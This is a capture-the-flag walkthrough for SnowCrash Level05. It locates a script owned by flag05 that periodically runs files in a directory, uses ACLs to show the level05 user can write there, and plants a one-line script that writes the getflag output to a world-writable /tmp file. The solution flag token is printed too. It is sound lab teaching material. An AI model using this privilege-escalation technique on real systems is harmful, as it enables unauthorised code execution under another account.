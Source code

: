 # Level05

## Walkthrough

We check if some files exist in the home directory.

```bash
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

Nothing.  

We try to find files owned by the **flag05** user.

```bash
level05@SnowCrash:~$ find / -type f -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$ cat /rofs/usr/sbin/openarenaserver 
cat: /rofs/usr/sbin/openarenaserver: Permission denied
```

We find a script `/usr/sbin/openarenaserver` which runs any other scripts found in directory `/opt/openarenaserver`, then deletes them after execution.

We check if we have the permissions to create a file in this directory.

```bash
level05@SnowCrash:~$ ls -la /opt | grep openarenaserver
drwxrwxr-x+ 2 root root  40 Feb  8 20:41 openarenaserver
```

The directory is owned by user **root** and group **root**, and others can only read or execute.  
The trailing `+` character in the permissions means that the file has extended permissions: **ACL**.


```bash
level05@SnowCrash:~$ getfacl /opt/openarenaserver/
getfacl: Removing leading '/' from absolute path names
# file: opt/openarenaserver/
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

We read the output of the `getfacl` command and notice that the user **level05** has read, write and execute permissions on this directory.  
To obtain the flag, we simply have to create a shell script that will store the result of the `getflag` command in a file.

```bash
level05@SnowCrash:~$ mkdir /tmp/level05 && touch /tmp/level05/result
level05@SnowCrash:~$ chmod 666 /tmp/level05/result
level05@SnowCrash:~$ echo 'getflag > /tmp/level05/result' > /opt/openarenaserver/script.sh
```

But as seen in the previous permissions, we cannot run the `/usr/sbin/openarenaserver` script, maybe it's running on interval?  
Let's wait...  
Unfortunately, nothing happens. Seconds tick by and our script is still present and our `result` file empty. But after 5 or less minutes, our script is deleted and the output of the `getflag` command is printed inside `result`.

```bash
level05@SnowCrash:~$ cat /tmp/level05/result
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Resources

- [ACL](https://en.wikipedia.org/wiki/Access-control_list)
- [What does a + mean at the end of the permissions from ls -l?](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)
